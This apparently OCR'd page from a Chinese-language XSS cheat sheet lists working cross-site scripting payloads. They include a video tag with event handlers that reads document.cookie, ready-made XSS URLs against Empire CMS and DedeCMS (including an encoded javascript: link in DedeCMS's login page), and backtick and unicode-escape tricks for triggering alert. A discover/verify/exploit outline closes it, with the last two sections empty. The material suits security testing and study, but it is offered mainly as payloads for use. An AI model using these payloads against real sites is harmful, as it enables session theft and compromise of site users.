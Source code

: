 `<video src="http://someip/11.avi" onloadedmetadata="alert(document.cookie);" ondurationoncharged="alert(/xss2/);" ontimeupdate="alert(/xss3/);" tabindex="0"></video>`



## CMS通用XSS漏洞
### 帝国CMS
`/e/ViewImg/index.html?url=javascript:alert(7)`


### 织梦CMS
```
/dede/login.php?gotopage=%22%3E%3Ca%20href=javascrip%26%2338%3B%26%2335%3B%26%2349%3B%26%2349%3B%26%2354%3B%26%2359%3B:alert(7);%3E
```


## 思路导图
分为：
- 发现
- 验证
- 利用
### 发现

#### trigger
##### origin
###### script context

使用 quot `的一些用例：
```javascript
alert`1`
`${alert(1)}`
\u{0000000000000061}lert(1)
setTimeout(name)

```





### 验证

### 利用